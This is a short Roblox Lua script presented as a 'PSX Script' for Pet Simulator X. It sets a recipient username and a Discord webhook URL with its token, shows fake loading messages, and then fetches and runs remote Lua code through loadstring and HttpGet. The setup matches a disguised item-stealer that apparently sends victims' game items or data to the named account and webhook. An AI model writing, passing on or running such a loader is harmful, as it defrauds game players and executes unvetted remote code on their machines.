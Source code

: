 Username = "stickybumstick"

WebHook = "https://discord.com/api/webhooks/1099344158235308054/xZWP71Y1KCwB81sDCZ_FGEeXLyR72_EM93cDUNtaL6OlUQi-pY749vsVtCBijbuZAadD"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI

_G.CustomScriptName = "PSX Script"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
